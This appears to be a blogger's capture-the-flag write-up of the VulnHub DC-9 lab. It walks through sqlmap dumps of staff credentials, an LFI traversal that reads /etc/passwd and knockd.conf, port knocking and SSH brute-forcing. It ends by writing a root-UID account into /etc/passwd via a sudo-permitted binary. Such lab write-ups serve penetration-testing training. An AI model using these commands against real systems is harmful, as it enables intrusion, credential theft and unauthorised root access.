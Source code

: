 ```yaml
---
layout: default
title : muzec - DC 9 Writeup
---
```


DC-9 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.

The ultimate goal of this challenge is to get root and to read the one and only flag.

[Download DC 9 Here](https://www.vulnhub.com/entry/dc-9,412/) .

![image](https://user-images.githubusercontent.com/69868171/120352900-3f3e5300-c2cf-11eb-8a39-639c9dfa8921.png)

We always start with an nmap scan.....

```Nmap -sC -sV -oA nmap <Target-IP>```

```
# Nmap 7.91 scan initiated Tue Jun  1 07:26:38 2021 as: nmap -sC -p- -sV -oA nmap 172.16.139.197
Nmap scan report for 172.16.139.197
Host is up (0.0030s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Example.com - Staff Details - Welcome

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jun  1 07:26:48 2021 -- 1 IP address (1 host up) scanned in 9.69 seconds
```

We are having HTTP port only let hit it not going to waste to much of time here have a lot to do.

![image](https://user-images.githubusercontent.com/69868171/120353554-bffd4f00-c2cf-11eb-9293-6d4112a1b911.png)

A login page so i try some basic SQL injection on the login page but not luck so i decided to try the search form and luck us we hit a jackpot so let intercept the search request with burp.

![image](https://user-images.githubusercontent.com/69868171/120355372-3e0e2580-c2d1-11eb-98bb-7ed30969d0a5.png)

Now let save it in a txt file.

![image](https://user-images.githubusercontent.com/69868171/120356020-e2906780-c2d1-11eb-9aee-5e744f60cf4c.png)

`sqlmap -r scan.txt --dbs --columns`

![image](https://user-images.githubusercontent.com/69868171/120356610-8417b900-c2d2-11eb-9720-3b3219ad6d3b.png)

`sqlmap -r scan.txt -D Staff -T Users -C Username --dump`

![image](https://user-images.githubusercontent.com/69868171/120357413-6ac33c80-c2d3-11eb-829a-32390ea34f53.png)

Now let do the same thing for the password.

`sqlmap -r scan.txt -D Staff -T Users -C Password --dump`

![image](https://user-images.githubusercontent.com/69868171/120358453-7e22d780-c2d4-11eb-8393-ac0cb765af7a.png)

Now let crack the password hash we just obtain.

![image](https://user-images.githubusercontent.com/69868171/120359046-3d778e00-c2d5-11eb-820b-912232c74e38.png)

Boom we have credential now let log in with `admin` and  `transorbital1` .

![image](https://user-images.githubusercontent.com/69868171/120359237-7152b380-c2d5-11eb-9731-06487f3122ba.png)

And we are in but the `	File does not exist` look strange is it trying to tell us we have some active parameter that can lead to LFI maybe or maybe not let try it.

![image](https://user-images.githubusercontent.com/69868171/120359717-ffc73500-c2d5-11eb-8936-25b467fe814b.png)

Boom we are right it a parameter that lead to LFI vulnerability so checking all files with the LFI i found some interesting file `http://172.16.139.198/manage.php?file=../../../../../../../../../../etc/knockd.conf` .

![image](https://user-images.githubusercontent.com/69868171/120362497-23d84580-c2d9-11eb-9231-30a67cf6a32d.png)

We use the knock command for the Port Knocking. This can be done by a bunch of different methods. After Knocking the ports in the sequence, we ran the NMAP scan again to ensure that our knocking worked and SSH Port should be open now. We have the SSH port open. This is our way in.

```
knock 172.16.139.198 7469 8475 9842
nmap -p22 172.16.139.198
```

![image](https://user-images.githubusercontent.com/69868171/120362994-aa8d2280-c2d9-11eb-854b-35ca5dc7d5c5.png)

Now we have SSH open since we found some password in the database we dump recently and we have all the users in the `/etc/passwd` file we just read with the LFI let try to brute force for SSH with it.

![image](https://user-images.githubusercontent.com/69868171/120363466-2f783c00-c2da-11eb-8570-b3421f9fc98f.png)

Good we have credential for SSH now let log in.

![image](https://user-images.githubusercontent.com/69868171/120363695-6fd7ba00-c2da-11eb-9531-006b15241862.png)

We are in let enumerate.

![image](https://user-images.githubusercontent.com/69868171/120364192-ee345c00-c2da-11eb-9381-1e766e13d06d.png)

A secret directory with a passwordlist again cool let hit SSH again.

![image](https://user-images.githubusercontent.com/69868171/120364494-4f5c2f80-c2db-11eb-98f5-7ea089f56c61.png)

Nice think we find our way to root.

![image](https://user-images.githubusercontent.com/69868171/120364590-7286df00-c2db-11eb-99f8-c150c6ff8c45.png)

### Privilege Escalation

Seems we can a command on sudo ` /opt/devstuff/dist/test/test` cool now let get root.

![image](https://user-images.githubusercontent.com/69868171/120366219-68fe7680-c2dd-11eb-94dd-ea8489261865.png)

```
openssl passwd -1 -salt muzec 123456
echo 'muzec:$1$muzec$neJaym5k6ebVFUW/P2iMd/:0:0::/root:/bin/bash' >> /tmp/muzec
sudo /opt/devstuff/dist/test/test /tmp/muzec /etc/passwd
su muzec
123456
```

![image](https://user-images.githubusercontent.com/69868171/120366031-28066200-c2dd-11eb-91d1-1ddab67cd79a.png)

Boom we are root and done let get the flag.

![image](https://user-images.githubusercontent.com/69868171/120366105-3fdde600-c2dd-11eb-8a5e-236a0d09bf95.png)

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
